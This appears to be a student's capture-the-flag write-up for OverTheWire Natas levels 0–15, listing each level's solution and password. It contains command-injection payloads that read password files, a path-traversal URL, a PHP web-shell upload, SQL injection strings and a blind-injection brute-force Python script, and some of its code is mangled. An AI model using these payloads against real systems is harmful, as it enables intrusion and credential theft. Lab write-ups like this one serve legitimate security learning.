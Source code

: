 ﻿**OVERTHEWIRE:NATAS**

 
**LEVEL 0 -> Level 15 Writeups**


> **https://overthewire.org/wargames/natas/**



**Natas-0**

\*Found the password for natas1 in the source page.
<!--The password for natas1 is g9D9cREhslqBKtcA2uocGHPfMZVzeFK6 -->
**Natas-1**

\*Found the password by accessing the page source from developer tools in chrome.
<!--The password for natas2 is h4ubbcXrWqs To7GGnnUMLppXb0ogfBZ7-->

**Natas-2**

\*Got the password in users.txt file which is present inside the files directory of the website 
Password:G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

**Natas-3**

\*The hidden directory was identified by using /robots.txt.
Password:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

**Natas-4:**

\*Changed the default referrer by using the referrer controller.
Password:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

**Natas-5**

\*Login credentials were saved in browsers as cookies so changed the cookie and got the access.
Password:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

**Natas-6:**

\*Checked the php code and found the secret code by traversing by adding includes/secret.inc
Secret:FOEIUWGHFEEUHOFUOIU
Password:jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

**Natas-7**
\* Traversed through the /etc files by: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas\_webpass/natas8
Password:a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

**Natas-8**

\*Decoded the encoded secret by using this function:
```
function decodeSecret($encoded) 
{ return base64\_decode(strrev(hex2bin($encoded)));
}
```
PasswordSda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

**Natas-9**

\*The vulnerability here there is passthru the key I entered  ; cat /etc/natas\_webpass/natas10 # to access the file and display the password.

Password:D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

**Natas-10**
Here there is a filter applied so I used . /etc/natas\_webpass/natas11 # here .\* searches for the files that have the path mentioned.
Password:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

**Natas-11**

\*After going through the source code we need to set the showpass to yes in order to view the pass.
\*XOR encrypt has a key by which it encrypts so to know the key I used a online code which I got while surfing google
\*Changed the cookie to MGw7JCQ5OC04PT8jOSpqdmk3LT9pYmouLC0nICQ8anZpbS4qLSguKmkz
Password:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

**Natas-12**

\*Created a .php file with the following command in it 
<?php echo exec("cat /etc/natas\_webpass/natas14"); ?>
Used burp suite and changed the file that opened from .jpg to .php and accessed the natas14 file for the pass
Password:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

**Natas-13**

\*Learned that the website identifies the jpg by the first four bits of hexadecimal code.
\*Used hexeditor to change the first 4 bytes and then uploaded the file.
\*Intercepted the upload using burpsuite and then changed the input to php.
Password:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

**Natas-14:**

\*Learnt about SQL injection and then accessed it using 
username=1" OR “TEST” = “TEST”&password=”1" OR “TEST” = “TEST
which makes it true and shows the password.

**Natas-15:**

\*From source code we can know that the pass is stored in users relation which has username and password as columns.
\*So used SQL injection by running an py code.


#!/usr/bin/env python
\# -\* coding: utf-8 --

```
import requests
import re
from string import ascii\_lowercase, ascii\_uppercase, digits
characters = ascii\_lowercase + ascii\_uppercase + digits
print(characters)

username = 'natas15'
password = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
url = 'http://natas15.natas.labs.overthewire.org/'
session = requests.Session()
seen\_password = list()

while True:
     for ch in characters:
        print("trying with pass", "".join(seen\_password) + ch)
        response = session.post(url, data={"username": 'natas16" AND BINARY password LIKE \'' + "".join(seen\_password) + ch + '%\' #'}, auth=(username, password))
        content = response.text
        if 'user exists' in content:
            seen\_password.append(ch)
              break
```
Password:RD7iZrd5gATjj9PkPEuaOlfEjHqj32V

